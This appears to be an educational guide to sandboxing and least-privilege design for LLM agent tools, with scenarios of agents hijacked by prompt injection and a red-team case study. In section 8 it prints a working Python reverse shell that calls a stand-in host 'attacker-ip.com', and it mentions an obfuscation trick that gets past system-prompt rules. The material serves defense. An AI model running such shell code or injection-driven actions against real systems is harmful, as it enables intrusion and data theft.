

# Tool Sandboxing & Least Privilege

## 1. Introduction

When developers build initial agent prototypes, it is tempting to grant tools broad, unrestricted capabilities: giving a database tool `SELECT *`, `INSERT`, `UPDATE`, and `DELETE` access on all tables, or giving a code interpreter full network and root filesystem privileges. 

In production, however, an autonomous agent must be treated as a potentially compromised or untrusted entity. If an agent suffers from hallucination, logic failure, or prompt injection, the blast radius of that failure is determined entirely by what its tools are physically permitted to touch. **Tool Sandboxing** and the **Principle of Least Privilege (PoLP)** are the foundational defense-in-depth architectural strategies used to restrict an agent's execution environment, isolate its credentials, and strictly limit the blast radius of any operational failure.

---

## 2. Why This Topic Exists

Assume an attacker successfully executes a 100% effective indirect prompt injection that completely brainwashes your customer support agent.
- **Scenario A (Unsandboxed / Full Privilege):** The agent's tools run on the host server with access to internal AWS credentials, a write-capable PostgreSQL connection pool, and an unrestricted outbound internet connection. The attacker drops the production database, launches cryptocurrency miners, and exfiltrates proprietary code.
- **Scenario B (Sandboxed / Least Privilege):** The agent runs inside an ephemeral, micro-VM container with no outbound network access. Its database tool connects via a scoped read-only user restricted to public FAQ tables. Any write operation requires an asynchronous human approval signature.

In Scenario B, the prompt injection succeeded in tricking the LLM, but **failed to cause any real-world damage**. Tool sandboxing ensures that when the AI fails, your company does not.

---

## 3. Core Concept

### Beginner
Think of giving someone the keys to your house:
- **Unrestricted:** You give a stranger the master key that opens your front door, your bedroom, your personal safe, and your car.
- **Least Privilege:** You hire a gardener and give them a single key that only unlocks the outdoor garden shed between 9:00 AM and 11:00 AM on Tuesdays. They cannot enter your house, open your safe, or start your car.

**Least privilege** means giving the agent only the bare minimum tools and permissions it needs to complete its specific job — and nothing more. **Sandboxing** means putting the agent in a room where even if it tries to throw rocks, the walls are padded.

### Intermediate
The **Principle of Least Privilege (PoLP)** applied to agent tools involves four core dimensions:
1. **Read/Write Separation:** Separate information retrieval tools from state mutation tools. An agent tasked with answering questions should never have access to `update_record` or `delete_user`.
2. **Entity-Level Scoping:** Restrict queries to the authenticated user's tenant ID. The tool implementation — not the LLM — must enforce `WHERE user_id = current_user.id`.
3. **Ephemeral Execution Sandboxes:** Run code execution tools (Python, Bash, Node.js) inside isolated, stateless containers (e.g. Docker, WebAssembly, gVisor, or Firecracker micro-VMs) with strict CPU, memory, and disk quotas.
4. **Network Egress Isolation:** By default, disable outbound internet access from tool execution environments. If a tool needs external access, allowlist only specific, required domain names.

### Advanced
In modern enterprise architectures, tool sandboxing is implemented through **Cryptographic Capability Tokens** and **Granular IAM Role Delegation**:
- Rather than granting the agent a static API key, the agent runtime issues a short-lived, downscoped OAuth2 token or AWS STS AssumeRole credential tailored exclusively to the current task.
- If a user asks: *"Check my order status,"* the agent receives a token with scope `orders:read:user_123`, valid for 60 seconds.
- Even if the model is tricked into issuing `orders:delete:user_999`, the API gateway rejects the call at the cryptographic authorization layer before the tool code ever executes.

---

## 4. Deep Explanation

### Sandboxing & Privilege Matrix

| Tool Type | Inherent Risk | Required Sandbox Level | Least Privilege Implementation |
| :--- | :--- | :--- | :--- |
| **Database Queries (SQL)** | SQL injection, data exfiltration, accidental mass deletion. | Read-only database replicas; connection-level row security. | Use parameterized queries; hardcode `SELECT` only; enforce `LIMIT 100`; enforce tenant ID in connection context. |
| **Code Execution (Python/Bash)** | Remote code execution, reverse shells, container escapes. | Ephemeral micro-VM (Firecracker/gVisor/Wasm); dropped capabilities. | Disable network access; mount root filesystem read-only; 5-second CPU timeout; max 256MB RAM. |
| **Web Browsing / Scraping** | SSRF (Server-Side Request Forgery), internal network port scanning. | Headless browser in isolated VPC; dedicated egress proxy. | Block private IP ranges (10.0.0.0/8, 192.168.0.0/16, 169.254.169.254 AWS metadata); allowlist only HTTPS on port 443. |
| **Email / Messaging** | Phishing propagation, spamming, data leakage. | API rate-limiting; domain allowlisting. | Can only send to internal domains; drafts emails for human review rather than sending directly. |
| **Financial / Payments** | Fraud, unauthorized charges, money laundering. | Payment gateway API token with transaction amount caps. | Max transaction limit (e.g., \$50.00); mandatory step-up authentication (2FA) for write calls. |

---

## 5. Step-by-Step Flow

How a Sandboxed Tool Gateway intercepts and enforces authorization:

```mermaid
flowchart TD
    LLM[Agent LLM Proposes Action:\nTool: run_python(code=...)] --> Gateway[Sandboxed Tool Gateway]
    
    Gateway --> CheckPerms{1. Verify Caller Scope:\nIs Code Exec Allowed for User Role?}
    CheckPerms -- No --> RejectAuth[Return 403 Forbidden to Agent]
    
    CheckPerms -- Yes --> SpinSandbox[2. Provision Ephemeral Sandbox:\nFirecracker micro-VM / Docker]
    
    SpinSandbox --> ApplyLimits[3. Apply Hard Resource Limits:\n- Disallow Network (no-net)\n- Read-only Root FS\n- CPU: 1 core, RAM: 256MB\n- Timeout: 5000ms]
    
    ApplyLimits --> ExecCode[4. Run Code in Sandbox]
    
    ExecCode --> TimeoutCheck{Did Execution Exceed 5s?}
    TimeoutCheck -- Yes --> KillProcess[SIGKILL Container & Return Timeout Error]
    
    TimeoutCheck -- No --> CaptureOutput[5. Capture stdout & stderr]
    CaptureOutput --> DestroySandbox[6. Destroy Container Instantly]
    DestroySandbox --> ReturnObs[Return Observation to Agent Context]
```

---

## 6. Architecture Explanation

Production architecture for a **Multi-Tier Secure Agent Runtime**:



1. **Tool Broker (PEP):** Acts as a mandatory security proxy between the agent and all backend APIs. The LLM never communicates with APIs directly.
2. **Policy Enforcement:** The Broker validates the user's session claims, checks tool parameter schemas, and determines whether an action requires human-in-the-loop signoff.
3. **Isolated Sandboxes:** Each tool category executes in its own isolated environment with tailored security constraints.

---

## 7. Visual Analogy

Imagine a chemistry research facility:
- You have an enthusiastic, brilliant, but unpredictable intern (the Agent).
- **Unsandboxed:** You give the intern full access to open shelves containing radioactive uranium, liquid cyanide, and high explosives. If they trip or get confused, the entire facility blows up.
- **Sandboxed:** You place the intern behind a sealed glass glovebox. Inside the glovebox are only two small, inert test tubes of salt water. Even if the intern spills everything or attempts to start a fire, the hazard is entirely contained inside the glass chamber.

**Sandboxing isolates the hazard to the dimensions of the glovebox.**

---

## 8. Real Industry Example

A financial analytics platform allowed customers to ask questions like: *"Plot my portfolio risk over the last 5 years"* by having an LLM generate and run Python code using `matplotlib` and `pandas`.

- **The Exploit:** A red-team tester asked:
  ```python
  import socket, subprocess, os
  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  s.connect(("attacker-ip.com", 4444))
  os.dup2(s.fileno(), 0); os.dup2(s.fileno(), 1); os.dup2(s.fileno(), 2)
  subprocess.call(["/bin/sh", "-i"])
  ```
- **The Result in Staging:** Because the code execution ran directly on the worker node, the tester gained an interactive root reverse shell on the Kubernetes cluster hosting the entire company's database secrets.
- **The Architectural Remodel:**
  1. Migrated all code execution to **WebAssembly (WASM) / gVisor sandboxes**.
  2. Stripped all network socket syscalls at the Linux kernel boundary (`SECCOMP_RET_KILL`).
  3. Mounted all file storage in RAM-only tmpfs that is wiped every 5 seconds.
  4. Subsequent penetration tests attempting socket connections were instantly terminated by the kernel with zero access to the host environment.

---

## 9. Common Misconceptions

| Misconception | Reality |
| :--- | :--- |
| *"Docker containers are completely secure sandboxes by default."* | Default Docker containers share the host Linux kernel and can be vulnerable to container breakouts or local network scanning unless hardened with gVisor, AppArmor, and dropped capabilities. |
| *"We can tell the LLM in the system prompt to only write safe Python code."* | Attackers bypass prompt instructions with trivial obfuscation (e.g. `__import__('os').system(...)`). Security must be enforced at the runtime kernel boundary, not by the LLM. |
| *"Least privilege makes agents less capable."* | Least privilege makes agents **predictably capable**. When tools do exactly one thing well with narrow scopes, tool-choice accuracy actually increases significantly. |

---

## 10. Best Practices

1. **Read-Only by Default:** Default all database tools to read-only connections. Route state-altering mutations through separate, auditable tools with human approval.
2. **Sever Network Egress for Code Interpreters:** If your agent runs generated code, block all outbound networking at the virtual network adapter level.
3. **Prevent SSRF Attacks:** Explicitly block access to link-local and cloud metadata endpoints (`169.254.169.254`, `localhost`, `127.0.0.1`, `10.0.0.0/8`).
4. **Enforce Hard Timeouts and Resource Quotas:** Every tool execution should have a strict timeout (e.g. 5 seconds) and memory cap (e.g. 512MB) to prevent infinite loops and resource exhaustion.
5. **Human-in-the-Loop for State Changes:** Require explicit human confirmation for any action that deletes data, transfers money, or alters access permissions.

---

## 11. Summary

Tool sandboxing and the principle of least privilege represent the ultimate safety net for autonomous agent architectures. By assuming that the LLM will eventually hallucinate, make mistakes, or be tricked by prompt injection, engineers design containment boundaries where tools possess only the absolute minimum permissions needed to complete their tasks. Isolating code execution, restricting network egress, and enforcing identity-driven authorization ensures that agent failures remain harmless software errors rather than catastrophic security breaches.

---

## 12. Key Takeaways

- Assume the agent will eventually be compromised; design the blast radius to be zero.
- The Principle of Least Privilege requires separating read and write tools, scoping data to tenant IDs, and using ephemeral credentials.
- Code execution tools must run in hardened micro-VMs or sandboxes with dropped network and filesystem capabilities.
- Web scrapers and browsing tools must block internal network addresses to prevent Server-Side Request Forgery (SSRF).
- Security must be enforced by the Tool Broker and Operating System kernel, never by trusting the LLM to follow prompt instructions.
